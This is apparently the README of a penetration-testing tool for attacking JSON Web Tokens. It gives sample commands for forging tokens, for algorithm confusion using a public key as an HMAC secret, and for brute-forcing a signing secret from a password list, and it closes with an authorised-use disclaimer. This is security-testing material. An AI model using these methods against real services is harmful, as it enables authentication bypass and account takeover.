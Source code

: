 # jwt_swiss_knife
A tool for conducting different types of attacks against JWT
Credit to Tim Mclean for the great blogpost about JWT vulnerabilities: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ 

# Installation
pip install -r requirements.txt

# Sample Usage
Method 1:

./jwt_sk.py -method 1 -body '{"userEmail":"alexp@cyberint.com", "rememberMe":false, "exp":1473240911, "timestamp":"06-Sep-2016 05:35:11:774"}'

Method 2:

./jwt_sk.py -method 2 -body '{"userEmail":"oz@cyberint.com", "rememberMe":false, "exp":1504676111, "timestamp":"06-Sep-2017 05:35:11:774"}' -pk ~/Desktop/pubkey.pem -alg HS512

Method 3:

./jwt_sk.py -method 3 -jwtoken "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0aW1lc3RhbXAiOiIwNi1TZXAtMjAxNyAwNTozNToxMTo3NDQiLCJ1c2VyRW1haWwiOiJvekBjeWJlcmludC5jb20iLCJleHAiOjE1MDQ2NzYxMTF9.qkBZ_mjWCLOBUfmdcMR0e0MEaEuU8oykFALea3AfLpQ" -secrets ./passlist -alg HS256

# Screenshots

![Alt text](https://s29.postimg.org/py9b9o78n/Capture.png)

# Disclaimer

This tool is only for testing and academic purposes and can only be used where strict consent has been given.
Do not use it for illegal purposes.
